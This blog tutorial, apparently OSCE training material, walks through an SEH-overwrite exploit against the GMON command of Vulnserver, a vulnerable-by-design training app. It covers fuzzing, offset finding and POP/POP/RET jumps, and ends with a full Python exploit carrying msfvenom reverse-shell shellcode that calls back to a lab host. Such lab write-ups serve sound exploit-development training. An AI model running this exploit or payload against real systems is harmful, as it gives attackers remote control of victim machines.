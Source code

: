 :slug: vulnserver-gmon/
:date: 2020-06-16
:category: attacks
:subtitle: Exceptions are good
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Roberto Gomez Angel on Unsplash
:description: In previous posts, we have seen different techniques to exploit Vulnserver commands. All of them have something in common: direct EIP overwrite. In this post, we will explore Structured Exception Handling (SEH) overwriting for taking control of the flow of our victim application.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/KmKZV8pso-s

= GMON Exploiting: Harnessing SEH

This is the fourth article on the series of exploiting `Vulnserver`,
a `VbD` (Vulnerable-by-Design) application
in which you can practice Windows exploit development.

In our previous posts, we have successfully exploited link:../vulnserver-trun/[TRUN],
and link:../vulnserver-gter-no-egghunter/[GTER] commands.
Both of them had something in common: direct `EIP` overwrite, in which
our buffer directly overwrote the `return address` on the stack frame
of the affected function with a `JMP` instruction to execute the code
on our controlled buffer.

In this post, we will exploit the `GMON` command using a Structured
Exception Handling (`SEH`) overwrite to take control of the flow of Vulnserver.

== Structured Exception Handling

`SEH` is a non-standard mechanism created by Microsoft to handle exceptions
of applications using a uniform structure. It allows `C/C++` programs using
the well-known exception handling syntax (`try-except-finally`) used by other
high-level imperative languages. Here's an example:

[source,c]
----
__try {
    ....
    strcpy(mybuff, myinput);
}
__except (INSUFFICIENT_MEMORY) {
    my_exception_handler();
}
----

As you may imply, this code will try to execute `strcpy()`, and if it fails
because `INSUFFICIENT_MEMORY`, it will execute `my_exception_handler()`.

As there may be many exceptions, some explicitly declared by the
application and other by the `OS`, the handlers are tied together by a chain
of `_EXCEPTION_REGISTRATION_RECORD` structures, the last one (identified by
`FFFFFFFF`) being the default handler.

When an exception occurs,
the `OS` will walk the `SEH` chain,
finding which of them can handle that exception.
If none of the handlers have that exception registered,
the default handler (`FFFFFFFF`) will be triggered.

The structure of `_EXCEPTION_REGISTRATION_RECORD` is:

[source,c]
----
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
     PEXCEPTION_REGISTRATION_RECORD Next;
     PEXCEPTION_DISPOSITION Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
----

Here the `Next` parameter is a pointer to the next exception handler, also
called `nSEH` and the `Handler` parameter is a pointer to the handler itself.
We can see the exception handler's chain on a debugger:

image::seh1.png[SEH chain]

And on the stack, it is shown as:

image::seh2.png[SEH chain]

More information on `SEH` can be found on
link:https://docs.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=vs-2019[Microsoft's site].

== SEH exploiting

To oversimplify, the main goal of exploiting a program using `SEH` is to have
the ability to overwrite the exception handler pointer
(`my_exception_handler()` in our example) of the vulnerable function
with a pointer to our controlled code.

Some things must be in place for us
to successfully exploit an application using `SEH`:

. The application must have `SEH` built-in. This is a compile-time option.
. Our buffer will be allowed to pass far enough in the stack frame
to reach the function's `SEH` handler.
. The application must be compiled with `SafeSEH=Off`.

`SafeSEH` is a mechanism created since Windows XP that statically defines
the list of the allowed exception handlers, and if the application tries to
call something different, a crash will happen.

Ok, now with that summary of `SEH`, let's get our hands dirty.

== Fuzzing GMON

As with the other Vulnserver commands, the `GMON` command takes a single
parameter, so, we can reuse our Spike fuzz template:

[source,c]
----
s_string("GMON ");
s_string_variable("*");
----

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol, and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

And run it:

image::fuzz1.gif[Fuzzing GMON]

We got the crash!

And as with the other Vulnserver commands, it seems that 5060 bytes of data
triggered the crash:

image::wireshark1.png[Wireshark]

We can create our first proof-of-concept exploit:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now run our exploit with `vulnserver.exe` attached to a debugger:

image::crash1.gif[PoC]

As you can see, we effectively crashed `vulnserver.exe`,
but `EIP` does not seem to be mangled by our buffer.

However, if we look at the `SEH` chain table, we will see this:

image::seh3.png[Corrupted SEH]

That means that we effectively triggered an exception and overwrote the
exception handler with our buffer. If we trigger the exception handler (in
Immunity Debugger, it's done with `Shift+F9`) this will happen:

image::eip1.gif[EIP control]

We control `EIP!` That means that
we have control over the execution flow again.

We can now exploit this.

== Exploiting

We first need to find the exact offset on where the `SEH` handler gets
overwritten. We can do that by creating a cyclic pattern
using `pattern_create.rb` from Metasploit:

[source,bash]
----
$ msf-pattern_create -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac....
----

Let's add that pattern to our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'<insert pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::pattern1.gif[Pattern offset]

As you can see, the handler was overwritten with `346F4533`.
To find the offset in which the `SEH` handler gets overwritten,
we can use `pattern_offset.rb`:

[source,bash]
----
$ msf-pattern_offset -q 346F4533
[*] Exact match at offset 3551
----

Great, the offset on which
the `SEH` handler starts to be overwritten is `3551`.

To check that offset, we can inject:

. 3551 `A` characters
. 4 `B` characters
. 5000 - 3551 - 4 = 1445 `C` characters

If the `SEH` handler gets overwritten with our `B` buffer, we got it right.
This is our updated exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    b'B' * 4 +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And the result:

image::offset1.gif[Right offset]

Awesome!

Now, what would normally happen is to find a `JMP ESP` instruction.

However, let's look at the state of the stack
after triggering the exception handler:

image::aftercrash1.png[Stack]

We can see several things here:

. `EIP` is `42424242`.
. There are 8 bytes between the `ESP` at `0104EBA0` and our buffer at
`0104EBA8`.
. So, if we'd run a `JMP ESP`, we'd land at a pointer which we don't control,
and exploitation would fail.

So we need to find a way of removing those 8 bytes off of the stack in order
to redirect the execution flow to our buffer.

== POP/POP/RET

The x86 stack is a `LIFO` (Last In First Out) structure
where the last item pushed into the stack is the first to be popped back.
Each `PUSH` instruction will push exactly 4 bytes into the stack,
and every `POP` instruction will pop exactly 4 bytes off of the stack.

With that in mind, and knowing that we need to remove 8 bytes of the
stack to then return to our controlled buffer, we need to find an
address that contains a sequence of these instructions:

[source,x86asm]
----
POP R32           ; R32 can be any 32 bits register
POP R32
RET
----

The first `POP` will remove the first 4 bytes of the stack, the next `POP` the
other 4 bytes. The `RET` will redirect the execution flow to our buffer.

We can find those 3 instructions using many ways. I will use `mona.py`:

[source,bash]
----
!mona seh -cp nonull -cm safeseh=off -o
----

This will tell `mona.py` to find `POP/POP/RET` instruction sequences and
omit addresses with null characters (`-cp nonull`), omit addresses on
modules compiled with `SafeSEH` (`-cm safeseh=off`), and omit addresses
on modules of the `OS` (`-o`).

image::mona1.png[POP POP RET]

And we got 12 different options. We can choose any of those.
I will choose the sequence at `625011FB` just because :)

We can now update our exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::popret1.gif[POP POP RET]

Weeeeeeeh! We overwrote the `SEH` handler, triggered the exception, and
redirected to a `POP/POP/RET` sequence that returned to our controlled buffer!

However...!

We landed only 4 bytes before our injected `POP/POP/RET` address.
Remember the `_EXCEPTION_REGISTRATION_RECORD` structure?
It has 2 members: the `SEH` handler,
which we are overwriting with the `POP/POP/RET` address,
and the pointer to the next exception handler, also called `nSEH`.
So, we landed at `nSEH`.

However, just after the injected address there's a good 43 bytes buffer,
and before `nSEH` we had our 3500+ bytes buffer of `A`.

So, what's next? That's right! We must jump around again!

== Jump around

We only have 4 bytes to perform our first jump. Fortunately for us, short
jumps are only link:https://thestarman.pcministry.com/asm/2bytejumps.htm[2 bytes long].

So, we must perform a short jump of at least 8 bytes to pass *over* our
injected address and land on our `C` buffer.
We can get the needed opcodes using `nasm_shell.rb`:

[source,bash]
----
$ msf-nasm_shell
nasm > jmp short +0xa
00000000  EB08              jmp short 0xa
----

*Fun fact:* Note that we told to perform a 10 byte (`0xa`) jump, and the
returned opcode was `EB08`. It's because the `JMP` will calculate the offset
including the length of the `JMP` instruction alone, which is 2 bytes.

Ok, with our short jump opcode we can update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see if we could effectively jump over the `SEH` handler:

image::jmp1.gif[Short jump]

Yes! We are past our `SEH` handler. Now we have enough room of bytes to perform
a long jump back to the start of our `A` buffer.
With the debugger's help, we get the needed offset by simply telling it to jump
to the start of our `A` buffer and letting it calculate the offset.

image::jmp2.gif[Long jump]

As you can see, the resultant bytes are `E9 16 F2 FF FF`.

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::jmp3.gif[Long jump]

Great! All that's left is to insert a shellcode. Let's do that.

== Getting shell

We can create a reverse shellcode using `msfvenom` from Metasploit:

[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1807 bytes
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"
----

And with that, we can have the final exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"

PAYLOAD = (
    b'GMON /.:/' +
    SHELL +
    b'A' * (3551 - 4 - len(SHELL)) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Let's check it:

image::shell1.gif[Success]

Our shell! We are getting good at it, aren't we?

You can download the final exploit link:exploit.py[here]

== Conclusion

Exploiting applications using `SEH` overwriting is just a little different
than the simple `EIP` overwrite. However, you must take care of the little
details all the way down to get a successful exploitation.

